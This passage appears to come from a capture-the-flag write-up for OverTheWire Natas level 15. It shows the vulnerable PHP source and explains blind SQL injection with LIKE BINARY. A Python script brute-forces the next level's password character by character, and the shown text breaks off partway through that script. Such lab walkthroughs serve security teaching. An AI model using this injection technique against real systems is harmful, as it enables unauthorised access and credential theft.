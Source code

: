 ```php

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
```

This is another SQLi challenge except this time, it doesn't return any results. Instead, it only tells us whether a user exists or not. This is called a `blind SQL injection`. To perform a blind SQLi, we will conduct a series of *true* or *false* queries. If the site responds with `This user exists.`, we know that our input was correct. This allows us to brute force the password one character at a time.

We can do this with the [LIKE](https://dev.mysql.com/doc/refman/8.0/en/string-comparison-functions.html#operator_like) function which allows us to compare strings. Unfortunately, MySQL's string comparision is case-insensitive by default. We can get around this by using the [BINARY](https://dev.mysql.com/doc/refman/8.0/en/binary-varbinary.html) data type. This makes MySQL compare the byte value rather than the string.

We're going to be using `Python` for this challenge since we need to perform a lot of queries. Here is a [simple script](files/natas/natas15.py) to solve this challenge. However, it takes forever to run since it runs each query one at a time, so I rewrote it with `asyncio` to find every character at the same time. The [new and improved script](files/natas/natas15_async.py) finishes running in several seconds as opposed to minutes.

```python
#!/usr/bin/env python3
import requests


url = 'http://natas15.natas.labs.overthewire.org/index.php?username=natas16'
auth = ('natas15', natas15_pass)

def get_charset():
    alnum = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'
    charset = ''
    for char in alnum:
        sqli = f'" and password like binary "%{char}%'
        r = requests.get(url+sqli, auth=auth)
        if 'This user exists.' in r.text:
            charset += char
    return charset

def get_password(charset):
    password = ''
    while True:
        for char in charset:
            sqli = f'" and password like binary "{password+char}%'
            r = requests.get(url+sqli, auth=auth)
```